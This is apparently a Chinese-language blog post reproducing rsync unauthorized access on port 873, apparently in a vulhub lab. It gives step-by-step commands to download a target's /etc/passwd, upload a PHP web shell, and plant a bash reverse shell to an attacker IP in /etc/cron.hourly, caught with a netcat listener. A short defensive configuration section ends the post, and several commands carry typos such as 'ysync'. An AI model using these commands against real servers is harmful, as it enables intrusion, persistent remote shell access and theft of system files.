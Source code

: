 ```yaml
---
title: Rsync未授权访问复现
date: 2020-05-30 15:42:36
categories: 漏洞复现
tags: 未授权访问
---
```


#### Rsync

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听**873**端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件,甚至可以反弹shell。

<!--more-->

#### 未授权访问读取文件

读取文件

`rsync ysync://url:端口/目录`

![](http://cdn.laohuan.art/2020-05-29_16-40-45.png)

##### 下载文件

下载目标的passwd文件

`rsync rsync://url:80/src/etc/passwd ./`

![](http://cdn.laohuan.art/2020-05-29_16-45-44.png)

查看目标主机用户

![](http://cdn.laohuan.art/2020-05-29_16-47-07.png)

#### 上传shell

`ysync -av shell.php rsync://url:端口/src`

![](http://cdn.laohuan.art/2020-05-29_17-26-08.png)

可以看到shell已经传到目标主机上

![](http://cdn.laohuan.art/2020-05-29_15-23-36.png)

#### 反弹shell

##### crontab

Linux crontab是用来定期执行程序的命令。

当安装完成操作系统之后，默认便会启动此任务调度命令。

crond 命令每分锺会定期检查是否有要执行的工作，如果有要执行的工作便会自动执行该工作

下载并查看目标计划任务

`rsync ysync://url:端口/src/etc/crontab ./`

![](http://cdn.laohuan.art/2020-05-29_21-27-30.png)

红框内容表示每小时的第17分钟将会执行如下命令

`run-parts --report /etc/cron.hourly`

此文件下的东西，每个小时的第17分钟都将被执行一遍，我们将shell写到这个文件下，再另一个服务器设置好监听，稍加等待便能获得shell

上传反弹shell

准备我们的shell文件，shell内容如下

```bash
#!/bin/bash 
/bin/bash -i >& /dev/tcp/x.x.x.x/3950 0>&1
```

1. x.x.x.x为攻击机的IP地址
2. 3950为攻击机的监听端口

![](http://cdn.laohuan.art/2020-05-29_21-30-53.png)

上传shell

`rsync -av shell rsync://url:端口/src/etc/cron.hourly`

![](http://cdn.laohuan.art/2020-05-29_21-32-40.png)

在目标机的/etc/cron.hourly/下能看到上传的shell文件

![](http://cdn.laohuan.art/2020-05-29-41.png)

#### 反弹

在攻击设置好监听

`nc -nvlp 3950`

监听端口需和反弹shell里所一致

![](http://cdn.laohuan.art/2020-05-29_21-33-58.png)

实验里可根据具体时间修改靶机的/etc/crontab的文件，快速反弹shell，而实际环境就慢慢的等到每个小时的第17分钟吧

稍加等待，便能获得shell

![](http://cdn.laohuan.art/2020-05-29_15-18-02.png)

#### 防御

1.编辑配置文件

`nano /etc/rsync.conf`

2.写入代码

```
hosts allow xxx.xxx.xxx.xxx #限制访问IP
auth users = rsync           #认证的用户
secrets file = /etc/rsyncd.passwd
```

3.新增文件

`vim /etc/rsyncd.passwd`

写入用户密码

`ysync :password`

##### 参考链接

<https://blog.csdn.net/qq_36374896/article/details/84112341/>

<https://github.com/vulhub/vulhub/tree/master/rsync/common/>

